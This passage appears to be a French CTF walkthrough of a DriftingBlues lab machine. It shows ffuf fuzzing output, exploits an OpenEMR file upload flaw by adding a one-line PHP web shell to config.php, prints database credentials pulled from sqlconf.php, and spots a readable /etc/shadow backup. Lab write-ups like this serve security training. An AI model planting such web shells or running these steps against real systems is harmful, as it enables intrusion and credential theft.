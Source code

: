 ```plain
 :: Follow redirects : false 
 :: Calibration      : false 
 :: Timeout          : 10 
 :: Threads          : 40 
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405 
 :: Filter           : Response size: 456 
________________________________________________ 

.:.yarrak.:.31          [Status: 302, Size: 0, Words: 1, Lines: 1] 
:: Progress: [1412/1412] :: Job [1/1] :: 107 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

Une fois connecté il est temps de comprendre rapidement le fonctionnement de [cet exploit correspondant à la version identifiée](https://www.exploit-db.com/exploits/49998). On est comme pour d'autres CTFs de la série en présence d'une faille d'upload sans restrictions sur le type de fichier.  

L'exploit envoie des données vers le path */interface/super/manage\_site\_files.php* et la section du site qui semble la plus proche est *Administration > Files*.  

J'avoue que l'interface n'est pas super compréhensible et j'ai préféré éditer le fichier existant *config.php* plutôt que de tenter d'ajouter un nouveau fichier.  

La ligne ajoutée n'a rien de particulier :  

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

Une fois connecté je note la présence d'un utilisateur nommé *clapton*.   

A part ça je trouve des identifiants dans pour la base de données dans le fichier */var/www/html/sites/default/sqlconf.php* :  

```php
<?php 
//  OpenEMR 
//  MySQL Config 

$host   = 'localhost'; 
$port   = '3306'; 
$login  = 'openemr'; 
$pass   = 'junno'; 
$dbase  = 'openemr';
```

Mais le plus frappant est la présence d'un fichier de sauvegarde du */etc/shadow* accessible en lecture :  

```plain
www-data@driftingblues:/var$ ls backups/ -al 
total 28 
drwxr-xr-x  2 root root  4096 Jan 21 07:53 . 
drwxr-xr-x 12 root root  4096 Apr 25  2021 .. 
-rw-r--r--  1 root root 13873 Apr 25  2021 apt.extended_states.0 
-rw-r--r--  1 root root   943 Apr 25  2021 shadow.backup
```

